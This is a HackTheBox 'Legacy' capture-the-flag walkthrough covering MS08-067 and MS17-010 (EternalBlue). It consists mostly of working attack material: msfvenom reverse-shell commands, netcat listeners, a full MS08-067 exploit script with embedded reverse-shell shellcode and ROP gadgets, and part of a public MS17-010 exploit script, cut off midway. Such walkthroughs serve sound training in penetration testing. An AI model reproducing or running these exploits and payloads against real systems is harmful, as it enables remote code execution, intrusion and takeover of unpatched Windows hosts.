


# <a href='https://www.hackthebox.eu/home/machines/profile/2' target="blank">HackTheBox Legacy</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/bash-script)


## Enumeration

### Open Ports

``` bash

```

### Open Services

``` bash

```

## Foothold

### CVE-2008-4250 (MS08-067)

<a href='https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py' target="blank">Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)</a>

Check OS Version

``` bash
nmap -p 139,445 10.10.10.4 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery -Pn
```



=== "MS08-067 RCE"

	Generate reverse shell with msfvenom

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
	```

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 443
	```

	Get reverse shell

	```bash
	python ms08-067.py 10.10.10.4 6 445
	```

	

=== "ms08-067.py"

	``` python
	#!/usr/bin/env python
	import struct
	import time
	import sys
	from threading import Thread  # Thread is imported incase you would like to modify

	try:
	    from impacket import smb
	    from impacket import uuid
	    #from impacket.dcerpc import dcerpc
	    from impacket.dcerpc.v5 import transport

	except ImportError, _:
	    print 'Install the following library to make this script work'
	    print 'Impacket : https://github.com/CoreSecurity/impacket.git'
	    print 'PyCrypto : https://pypi.python.org/pypi/pycrypto'
	    sys.exit(1)

	print '#######################################################################'
	print '#   MS08-067 Exploit'
	print '#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).'
	print '#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi'
	print '#'
	print '#   Mod in 2018 by Andy Acer'
	print '#   - Added support for selecting a target port at the command line.'
	print '#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport'
	print '#   - Changed shellcode handling to allow for variable length shellcode.'
	print '#######################################################################\n'

	print ('''
	$   This version requires the Python Impacket library version to 0_9_17 or newer.
	$
	$   Here's how to upgrade if necessary:
	$
	$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
	$   cd impacket
	$   pip install .

	''')

	print '#######################################################################\n'


	# ------------------------------------------------------------------------
	# REPLACE THIS SHELLCODE with shellcode generated for your use
	# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
	#
	# Example msfvenom commands to generate shellcode:
	# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
	# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
	# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

	# Reverse TCP to 10.11.0.157 port 62000:
	shellcode=(
	"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
	"\x92\xe6\xe5\x9f\x83\xee\xfc\xe2\xf4\x6e\x0e\x67\x9f\x92\xe6"
	"\x85\x16\x77\xd7\x25\xfb\x19\xb6\xd5\x14\xc0\xea\x6e\xcd\x86"
	"\x6d\x97\xb7\x9d\x51\xaf\xb9\xa3\x19\x49\xa3\xf3\x9a\xe7\xb3"
	"\xb2\x27\x2a\x92\x93\x21\x07\x6d\xc0\xb1\x6e\xcd\x82\x6d\xaf"
	"\xa3\x19\xaa\xf4\xe7\x71\xae\xe4\x4e\xc3\x6d\xbc\xbf\x93\x35"
	"\x6e\xd6\x8a\x05\xdf\xd6\x19\xd2\x6e\x9e\x44\xd7\x1a\x33\x53"
	"\x29\xe8\x9e\x55\xde\x05\xea\x64\xe5\x98\x67\xa9\x9b\xc1\xea"
	"\x76\xbe\x6e\xc7\xb6\xe7\x36\xf9\x19\xea\xae\x14\xca\xfa\xe4"
	"\x4c\x19\xe2\x6e\x9e\x42\x6f\xa1\xbb\xb6\xbd\xbe\xfe\xcb\xbc"
	"\xb4\x60\x72\xb9\xba\xc5\x19\xf4\x0e\x12\xcf\x8e\xd6\xad\x92"
	"\xe6\x8d\xe8\xe1\xd4\xba\xcb\xfa\xaa\x92\xb9\x95\x19\x30\x27"
	"\x02\xe7\xe5\x9f\xbb\x22\xb1\xcf\xfa\xcf\x65\xf4\x92\x19\x30"
	"\xcf\xc2\xb6\xb5\xdf\xc2\xa6\xb5\xf7\x78\xe9\x3a\x7f\x6d\x33"
	"\x72\xf5\x97\x8e\xef\x95\x9c\xe2\x8d\x9d\x92\xe7\x5e\x16\x74"
	"\x8c\xf5\xc9\xc5\x8e\x7c\x3a\xe6\x87\x1a\x4a\x17\x26\x91\x93"
	"\x6d\xa8\xed\xea\x7e\x8e\x15\x2a\x30\xb0\x1a\x4a\xfa\x85\x88"
	"\xfb\x92\x6f\x06\xc8\xc5\xb1\xd4\x69\xf8\xf4\xbc\xc9\x70\x1b"
	"\x83\x58\xd6\xc2\xd9\x9e\x93\x6b\xa1\xbb\x82\x20\xe5\xdb\xc6"
	"\xb6\xb3\xc9\xc4\xa0\xb3\xd1\xc4\xb0\xb6\xc9\xfa\x9f\x29\xa0"
	"\x14\x19\x30\x16\x72\xa8\xb3\xd9\x6d\xd6\x8d\x97\x15\xfb\x85"
	"\x60\x47\x5d\x05\x82\xb8\xec\x8d\x39\x07\x5b\x78\x60\x47\xda"
	"\xe3\xe3\x98\x66\x1e\x7f\xe7\xe3\x5e\xd8\x81\x94\x8a\xf5\x92"
	"\xb5\x1a\x4a"
	)
	# ------------------------------------------------------------------------

	# Gotta make No-Ops (NOPS) + shellcode = 410 bytes
	num_nops = 410 - len(shellcode)
	newshellcode = "\x90" * num_nops
	newshellcode += shellcode  # Add NOPS to the front
	shellcode = newshellcode   # Switcheroo with the newshellcode temp variable

	#print "Shellcode length: %s\n\n" % len(shellcode)

	nonxjmper = "\x08\x04\x02\x00%s" + "A" * 4 + "%s" + \
	    "A" * 42 + "\x90" * 8 + "\xeb\x62" + "A" * 10
	disableNXjumper = "\x08\x04\x02\x00%s%s%s" + "A" * \
	    28 + "%s" + "\xeb\x02" + "\x90" * 2 + "\xeb\x62"
	ropjumper = "\x00\x08\x01\x00" + "%s" + "\x10\x01\x04\x01";
	module_base = 0x6f880000


	def generate_rop(rvas):
	    gadget1 = "\x90\x5a\x59\xc3"
	    gadget2 = ["\x90\x89\xc7\x83", "\xc7\x0c\x6a\x7f", "\x59\xf2\xa5\x90"]
	    gadget3 = "\xcc\x90\xeb\x5a"
	    ret = struct.pack('<L', 0x00018000)
	    ret += struct.pack('<L', rvas['call_HeapCreate'] + module_base)
	    ret += struct.pack('<L', 0x01040110)
	    ret += struct.pack('<L', 0x01010101)
	    ret += struct.pack('<L', 0x01010101)
	    ret += struct.pack('<L',
	                       rvas['add eax, ebp / mov ecx, 0x59ffffa8 / ret'] + module_base)
	    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
	    ret += gadget1
	    ret += struct.pack('<L', rvas['mov [eax], ecx / ret'] + module_base)
	    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
	    ret += gadget2[0]
	    ret += gadget2[1]
	    ret += struct.pack('<L', rvas[
	                       'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret'] + module_base)
	    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
	    ret += gadget2[2]
	    ret += struct.pack('<L', rvas['mov [eax+0x10], ecx / ret'] + module_base)
	    ret += struct.pack('<L', rvas['add eax, 8 / ret'] + module_base)
	    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
	    ret += gadget3
	    return ret


	class SRVSVC_Exploit(Thread):
	    def __init__(self, target, os, port=445):
	        super(SRVSVC_Exploit, self).__init__()

	        # MODIFIED HERE
	        # Changed __port to port ... not sure if that does anything. I'm a newb.
	        self.port = port
	        self.target = target
	        self.os = os

	    def __DCEPacket(self):
	        if (self.os == '1'):
	            print 'Windows XP SP0/SP1 Universal\n'
	            ret = "\x61\x13\x00\x01"
	            jumper = nonxjmper % (ret, ret)
	        elif (self.os == '2'):
	            print 'Windows 2000 Universal\n'
	            ret = "\xb0\x1c\x1f\x00"
	            jumper = nonxjmper % (ret, ret)
	        elif (self.os == '3'):
	            print 'Windows 2003 SP0 Universal\n'
	            ret = "\x9e\x12\x00\x01"  # 0x01 00 12 9e
	            jumper = nonxjmper % (ret, ret)
	        elif (self.os == '4'):
	            print 'Windows 2003 SP1 English\n'
	            ret_dec = "\x8c\x56\x90\x7c"  # 0x7c 90 56 8c dec ESI, ret @SHELL32.DLL
	            ret_pop = "\xf4\x7c\xa2\x7c"  # 0x 7c a2 7c f4 push ESI, pop EBP, ret @SHELL32.DLL
	            jmp_esp = "\xd3\xfe\x86\x7c"  # 0x 7c 86 fe d3 jmp ESP @NTDLL.DLL
	            disable_nx = "\x13\xe4\x83\x7c"  # 0x 7c 83 e4 13 NX disable @NTDLL.DLL
	            jumper = disableNXjumper % (
	                ret_dec * 6, ret_pop, disable_nx, jmp_esp * 2)
	        elif (self.os == '5'):
	            print 'Windows XP SP3 French (NX)\n'
	            ret = "\x07\xf8\x5b\x59"  # 0x59 5b f8 07
	            disable_nx = "\xc2\x17\x5c\x59"  # 0x59 5c 17 c2
	            # the nonxjmper also work in this case.
	            jumper = nonxjmper % (disable_nx, ret)
	        elif (self.os == '6'):
	            print 'Windows XP SP3 English (NX)\n'
	            ret = "\x07\xf8\x88\x6f"  # 0x6f 88 f8 07
	            disable_nx = "\xc2\x17\x89\x6f"  # 0x6f 89 17 c2
	            # the nonxjmper also work in this case.
	            jumper = nonxjmper % (disable_nx, ret)
	        elif (self.os == '7'):
	            print 'Windows XP SP3 English (AlwaysOn NX)\n'
	            rvasets = {'call_HeapCreate': 0x21286, 'add eax, ebp / mov ecx, 0x59ffffa8 / ret': 0x2e796, 'pop ecx / ret': 0x2e796 + 6,
	                'mov [eax], ecx / ret': 0xd296, 'jmp eax': 0x19c6f, 'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret': 0x10a56, 'mov [eax+0x10], ecx / ret': 0x10a56 + 6, 'add eax, 8 / ret': 0x29c64}
	            # the nonxjmper also work in this case.
	            jumper = generate_rop(rvasets) + "AB"
	        else:
	            print 'Not supported OS version\n'
	            sys.exit(-1)

	        print '[-]Initiating connection'

	        # MORE MODIFICATIONS HERE #############################################################################################

	        if (self.port == '445'):
	            self.__trans = transport.DCERPCTransportFactory('ncacn_np:%s[\\pipe\\browser]' % self.target)
	        else:
	            # DCERPCTransportFactory doesn't call SMBTransport with necessary parameters. Calling directly here.
	            # *SMBSERVER is used to force the library to query the server for its NetBIOS name and use that to 
	            #   establish a NetBIOS Session.  The NetBIOS session shows as NBSS in Wireshark.

	            self.__trans = transport.SMBTransport(remoteName='*SMBSERVER', remote_host='%s' % self.target, dstport = int(self.port), filename = '\\browser' )
	        
	        self.__trans.connect()
	        print '[-]connected to ncacn_np:%s[\\pipe\\browser]' % self.target
	        self.__dce = self.__trans.DCERPC_class(self.__trans)
	        self.__dce.bind(uuid.uuidtup_to_bin(
	            ('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
	        path = "\x5c\x00" + "ABCDEFGHIJ" * 10 + shellcode + "\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00" + \
	            "\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00" + jumper + "\x00" * 2
	        server = "\xde\xa4\x98\xc5\x08\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00\x00\x00"
	        prefix = "\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x5c\x00\x00\x00"
	        
	        # NEW HOTNESS
	        # The Path Length and the "Actual Count" SMB parameter have to match.  Path length in bytes
	        #   is double the ActualCount field.  MaxCount also seems to match.  These fields in the SMB protocol
	        #   store hex values in reverse byte order.  So: 36 01 00 00  => 00 00 01 36 => 310.  No idea why it's "doubled"
	        #   from 310 to 620.  620 = 410 shellcode + extra stuff in the path.
	        MaxCount = "\x36\x01\x00\x00"  # Decimal 310. => Path length of 620.
	        Offset = "\x00\x00\x00\x00"
	        ActualCount = "\x36\x01\x00\x00" # Decimal 310. => Path length of 620

	        self.__stub = server + MaxCount + Offset + ActualCount + \
	            path + "\xE8\x03\x00\x00" + prefix + "\x01\x10\x00\x00\x00\x00\x00\x00"        

	        return

	    def run(self):
	        self.__DCEPacket()
	        self.__dce.call(0x1f, self.__stub)
	        time.sleep(3)
	        print 'Exploit finish\n'

	if __name__ == '__main__':
	       try:
	           target = sys.argv[1]
	           os = sys.argv[2]
	           port = sys.argv[3]
	       except IndexError:
	                print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
	                print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
	                print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
	                print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
	                print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
	                print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
	                print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
	                print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
	                print ''
	                print 'FYI: nmap has a good OS discovery script that pairs well with this exploit:'
	                print 'nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1'
	                print ''
	                sys.exit(-1)


	current = SRVSVC_Exploit(target, os, port)
	current.start()
	```

### CVE-2017-0144 (EternalBlue/MS17-010)

<a href='https://github.com/worawit/MS17-010' target="blank">Microsoft Security Bulletin MS17-010 (EternalBlue/MS17-010)</a>

=== "EternalBlue/MS17-010"

	Generate reverse shell file with msfvenom

	``` bash
	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
	```

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 443
	```

	Get reverse shell

	```bash
	python send_and_execute.py 10.10.10.4 shell.exe
	```

	

=== "send_and_execute.py"

	``` python
	#!/usr/bin/python
	from impacket import smb, smbconnection
	from mysmb import MYSMB
	from struct import pack, unpack, unpack_from
	import sys
	import socket
	import time
	import string
	import random
	import os.path

	'''
	MS17-010 exploit for Windows 2000 and later by sleepya

	Note:
	- The exploit should never crash a target (chance should be nearly 0%)
	- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

	Tested on:
	- Windows 2016 x64
	- Windows 10 Pro Build 10240 x64
	- Windows 2012 R2 x64
	- Windows 8.1 x64
	- Windows 2008 R2 SP1 x64
	- Windows 7 SP1 x64
	- Windows 2008 SP1 x64
	- Windows 2003 R2 SP2 x64
	- Windows XP SP2 x64
	- Windows 8.1 x86
	- Windows 7 SP1 x86
	- Windows 2008 SP1 x86
	- Windows 2003 SP2 x86
	- Windows XP SP3 x86
	- Windows 2000 SP4 x86
	'''

	USERNAME = ''
	PASSWORD = ''

	'''
	A transaction with empty setup:
	- it is allocated from paged pool (same as other transaction types) on Windows 7 and later
	- it is allocated from private heap (RtlAllocateHeap()) with no on use it on Windows Vista and earlier
	- no lookaside or caching method for allocating it

	Note: method name is from NSA eternalromance

	For Windows 7 and later, it is good to use matched pair method (one is large pool and another one is fit
	for freed pool from large pool). Additionally, the exploit does the information leak to check transactions
	alignment before doing OOB write. So this exploit should never crash a target against Windows 7 and later.

	For Windows Vista and earlier, matched pair method is impossible because we cannot allocate transaction size
	smaller than PAGE_SIZE (Windows XP can but large page pool does not split the last page of allocation). But
	a transaction with empty setup is allocated on private heap (it is created by RtlCreateHeap() on initialing server).
	Only this transaction type uses this heap. Normally, no one uses this transaction type. So transactions alignment
	in this private heap should be very easy and very reliable (fish in a barrel in NSA eternalromance). The drawback
	of this method is we cannot do information leak to verify transactions alignment before OOB write.
	So this exploit has a chance to crash target same as NSA eternalromance against Windows Vista and earlier.
	'''

	'''
	Reversed from: SrvAllocateSecurityContext() and SrvImpersonateSecurityContext()
	win7 x64
	struct SrvSecContext {
		DWORD xx1; // second WORD is size
		DWORD refCnt;
		PACCESS_TOKEN Token;  // 0x08
		DWORD xx2;
		BOOLEAN CopyOnOpen; // 0x14
		BOOLEAN EffectiveOnly;
		WORD xx3;
		DWORD ImpersonationLevel; // 0x18
		DWORD xx4;
		BOOLEAN UsePsImpersonateClient; // 0x20
	}
	win2012 x64
	struct SrvSecContext {
		DWORD xx1; // second WORD is size
		DWORD refCnt;
		QWORD xx2;
		QWORD xx3;
		PACCESS_TOKEN Token;  // 0x18
		DWORD xx4;
		BOOLEAN CopyOnOpen; // 0x24
		BOOLEAN EffectiveOnly;
		WORD xx3;
		DWORD ImpersonationLevel; // 0x28
		DWORD xx4;
		BOOLEAN UsePsImpersonateClient; // 0x30
	}

	SrvImpersonateSecurityContext() is used in Windows Vista and later before doing any operation as logged on user.
	It called PsImperonateClient() if SrvSecContext.UsePsImpersonateClient is true. 
	From https://msdn.microsoft.com/en-us/library/windows/hardware/ff551907(v=vs.85).aspx, if Token is NULL,
	PsImperonateClient() ends the impersonation. Even there is no impersonation, the PsImperonateClient() returns
	STATUS_SUCCESS when Token is NULL.
	If we can overwrite Token to NULL and UsePsImpersonateClient to true, a running thread will use primary token (SYSTEM)
	to do all SMB operations.
	Note: for Windows 2003 and earlier, the exploit modify token user and groups in PCtxtHandle to get SYSTEM because only
	  ImpersonateSecurityContext() is used in these Windows versions.
	'''
	###########################
	# info for modify session security context
	###########################
	WIN7_64_SESSION_INFO = {
		'SESSION_SECCTX_OFFSET': 0xa0,
		'SESSION_ISNULL_OFFSET': 0xba,
		'FAKE_SECCTX': pack('<IIQQIIB', 0x28022a, 1, 0, 0, 2, 0, 1),
		'SECCTX_SIZE': 0x28,
	}

	WIN7_32_SESSION_INFO = {
		'SESSION_SECCTX_OFFSET': 0x80,
		'SESSION_ISNULL_OFFSET': 0x96,
		'FAKE_SECCTX': pack('<IIIIIIB', 0x1c022a, 1, 0, 0, 2, 0, 1),
		'SECCTX_SIZE': 0x1c,
	}

	# win8+ info
	WIN8_64_SESSION_INFO = {
		'SESSION_SECCTX_OFFSET': 0xb0,
		'SESSION_ISNULL_OFFSET': 0xca,
		'FAKE_SECCTX': pack('<IIQQQQIIB', 0x38022a, 1, 0, 0, 0, 0, 2, 0, 1),
		'SECCTX_SIZE': 0x38,
	}

	WIN8_32_SESSION_INFO = {
		'SESSION_SECCTX_OFFSET': 0x88,
		'SESSION_ISNULL_OFFSET': 0x9e,
		'FAKE_SECCTX': pack('<IIIIIIIIB', 0x24022a, 1, 0, 0, 0, 0, 2, 0, 1),
		'SECCTX_SIZE': 0x24,
	}

	# win 2003 (xp 64 bit is win 2003)
	WIN2K3_64_SESSION_INFO = {
		'SESSION_ISNULL_OFFSET': 0xba,
		'SESSION_SECCTX_OFFSET': 0xa0,  # Win2k3 has another struct to keep PCtxtHandle (similar to 2008+)
		'SECCTX_PCTXTHANDLE_OFFSET': 0x10,  # PCtxtHandle is at offset 0x8 but only upperPart is needed
		'PCTXTHANDLE_TOKEN_OFFSET': 0x40,
		'TOKEN_USER_GROUP_CNT_OFFSET': 0x4c,
		'TOKEN_USER_GROUP_ADDR_OFFSET': 0x68,
	}

	WIN2K3_32_SESSION_INFO = {
		'SESSION_ISNULL_OFFSET': 0x96,
		'SESSION_SECCTX_OFFSET': 0x80,  # Win2k3 has another struct to keep PCtxtHandle (similar to 2008+)
		'SECCTX_PCTXTHANDLE_OFFSET': 0xc,  # PCtxtHandle is at offset 0x8 but only upperPart is needed
		'PCTXTHANDLE_TOKEN_OFFSET': 0x24,
		'TOKEN_USER_GROUP_CNT_OFFSET': 0x4c,
		'TOKEN_USER_GROUP_ADDR_OFFSET': 0x68,
	}

	# win xp
	WINXP_32_SESSION_INFO = {
		'SESSION_ISNULL_OFFSET': 0x94,
		'SESSION_SECCTX_OFFSET': 0x84,  # PCtxtHandle is at offset 0x80 but only upperPart is needed
		'PCTXTHANDLE_TOKEN_OFFSET': 0x24,
		'TOKEN_USER_GROUP_CNT_OFFSET': 0x4c,
		'TOKEN_USER_GROUP_ADDR_OFFSET': 0x68,
		'TOKEN_USER_GROUP_CNT_OFFSET_SP0_SP1': 0x40,
		'TOKEN_USER_GROUP_ADDR_OFFSET_SP0_SP1': 0x5c
	}

	WIN2K_32_SESSION_INFO = {
		'SESSION_ISNULL_OFFSET': 0x94,
		'SESSION_SECCTX_OFFSET': 0x84,  # PCtxtHandle is at offset 0x80 but only upperPart is needed
		'PCTXTHANDLE_TOKEN_OFFSET': 0x24,
		'TOKEN_USER_GROUP_CNT_OFFSET': 0x3c,
		'TOKEN_USER_GROUP_ADDR_OFFSET': 0x58,
	}

	###########################
	# info for exploitation
	###########################
	# for windows 2008+
	WIN7_32_TRANS_INFO = {
		'TRANS_SIZE' : 0xa0,  # struct size
		'TRANS_FLINK_OFFSET' : 0x18,
		'TRANS_INPARAM_OFFSET' : 0x40,
		'TRANS_OUTPARAM_OFFSET' : 0x44,
		'TRANS_INDATA_OFFSET' : 0x48,
		'TRANS_OUTDATA_OFFSET' : 0x4c,
		'TRANS_PARAMCNT_OFFSET' : 0x58,
		'TRANS_TOTALPARAMCNT_OFFSET' : 0x5c,
		'TRANS_FUNCTION_OFFSET' : 0x72,
		'TRANS_MID_OFFSET' : 0x80,
	}

	WIN7_64_TRANS_INFO = {
		'TRANS_SIZE' : 0xf8,  # struct size
		'TRANS_FLINK_OFFSET' : 0x28,
		'TRANS_INPARAM_OFFSET' : 0x70,
		'TRANS_OUTPARAM_OFFSET' : 0x78,
		'TRANS_INDATA_OFFSET' : 0x80,
		'TRANS_OUTDATA_OFFSET' : 0x88,
		'TRANS_PARAMCNT_OFFSET' : 0x98,
		'TRANS_TOTALPARAMCNT_OFFSET' : 0x9c,
		'TRANS_FUNCTION_OFFSET' : 0xb2,
		'TRANS_MID_OFFSET' : 0xc0,
	}

	WIN5_32_TRANS_INFO = {
		'TRANS_SIZE' : 0x98,  # struct size
		'TRANS_FLINK_OFFSET' : 0x18,
		'TRANS_INPARAM_OFFSET' : 0x3c,
		'TRANS_OUTPARAM_OFFSET' : 0x40,
		'TRANS_INDATA_OFFSET' : 0x44,
		'TRANS_OUTDATA_OFFSET' : 0x48,
		'TRANS_PARAMCNT_OFFSET' : 0x54,
		'TRANS_TOTALPARAMCNT_OFFSET' : 0x58,
		'TRANS_FUNCTION_OFFSET' : 0x6e,
		'TRANS_PID_OFFSET' : 0x78,
		'TRANS_MID_OFFSET' : 0x7c,
	}

	WIN5_64_TRANS_INFO = {
		'TRANS_SIZE' : 0xe0,  # struct size
		'TRANS_FLINK_OFFSET' : 0x28,
		'TRANS_INPARAM_OFFSET' : 0x68,
		'TRANS_OUTPARAM_OFFSET' : 0x70,
		'TRANS_INDATA_OFFSET' : 0x78,
		'TRANS_OUTDATA_OFFSET' : 0x80,
		'TRANS_PARAMCNT_OFFSET' : 0x90,
		'TRANS_TOTALPARAMCNT_OFFSET' : 0x94,
		'TRANS_FUNCTION_OFFSET' : 0xaa,
		'TRANS_PID_OFFSET' : 0xb4,
		'TRANS_MID_OFFSET' : 0xb8,
	}

	X86_INFO = {
		'ARCH' : 'x86',
		'PTR_SIZE' : 4,
		'PTR_FMT' : 'I',
		'FRAG_TAG_OFFSET' : 12,
		'POOL_ALIGN' : 8,
		'SRV_BUFHDR_SIZE' : 8,
	}

	X64_INFO = {
		'ARCH' : 'x64',
		'PTR_SIZE' : 8,
		'PTR_FMT' : 'Q',
		'FRAG_TAG_OFFSET' : 0x14,
		'POOL_ALIGN' : 0x10,
		'SRV_BUFHDR_SIZE' : 0x10,
	}

	def merge_dicts(*dict_args):
		result = {}
		for dictionary in dict_args:
			result.update(dictionary)
		return result

	OS_ARCH_INFO = {
		# for Windows Vista, 2008, 7 and 2008 R2
		'WIN7': {
			'x86': merge_dicts(X86_INFO, WIN7_32_TRANS_INFO, WIN7_32_SESSION_INFO),
			'x64': merge_dicts(X64_INFO, WIN7_64_TRANS_INFO, WIN7_64_SESSION_INFO),
		},
		# for Windows 8 and later
		'WIN8': {
			'x86': merge_dicts(X86_INFO, WIN7_32_TRANS_INFO, WIN8_32_SESSION_INFO),
			'x64': merge_dicts(X64_INFO, WIN7_64_TRANS_INFO, WIN8_64_SESSION_INFO),
		},
		'WINXP': {
			'x86': merge_dicts(X86_INFO, WIN5_32_TRANS_INFO, WINXP_32_SESSION_INFO),
			'x64': merge_dicts(X64_INFO, WIN5_64_TRANS_INFO, WIN2K3_64_SESSION_INFO),
		},
		'WIN2K3': {
			'x86': merge_dicts(X86_INFO, WIN5_32_TRANS_INFO, WIN2K3_32_SESSION_INFO),
			'x64': merge_dicts(X64_INFO, WIN5_64_TRANS_INFO, WIN2K3_64_SESSION_INFO),
		},
		'WIN2K': {
			'x86': merge_dicts(X86_INFO, WIN5_32_TRANS_INFO, WIN2K_32_SESSION_INFO),
		},
	}


	TRANS_NAME_LEN = 4
	HEAP_HDR_SIZE = 8  # heap chunk header size


	def calc_alloc_size(size, align_size):
		return (size + align_size - 1) & ~(align_size-1)

	def wait_for_request_processed(conn):
		#time.sleep(0.05)
		# send echo is faster than sleep(0.05) when connection is very good
		conn.send_echo('a')

	def find_named_pipe(conn):
		pipes = [ 'browser', 'spoolss', 'netlogon', 'lsarpc', 'samr' ]
		
		tid = conn.tree_connect_andx('\\\\'+conn.get_remote_host()+'\\'+'IPC$')
		found_pipe = None
		for pipe in pipes:
			try:
				fid = conn.nt_create_andx(tid, pipe)
				conn.close(tid, fid)
				found_pipe = pipe
				break
			except smb.SessionError as e:
				pass
		
		conn.disconnect_tree(tid)
		return found_pipe


	special_mid = 0
	extra_last_mid = 0
	def reset_extra_mid(conn):
		global extra_last_mid, special_mid
		special_mid = (conn.next_mid() & 0xff00) - 0x100
		extra_last_mid = special_mid
		
	def next_extra_mid():
		global extra_last_mid
		extra_last_mid += 1
		return extra_last_mid


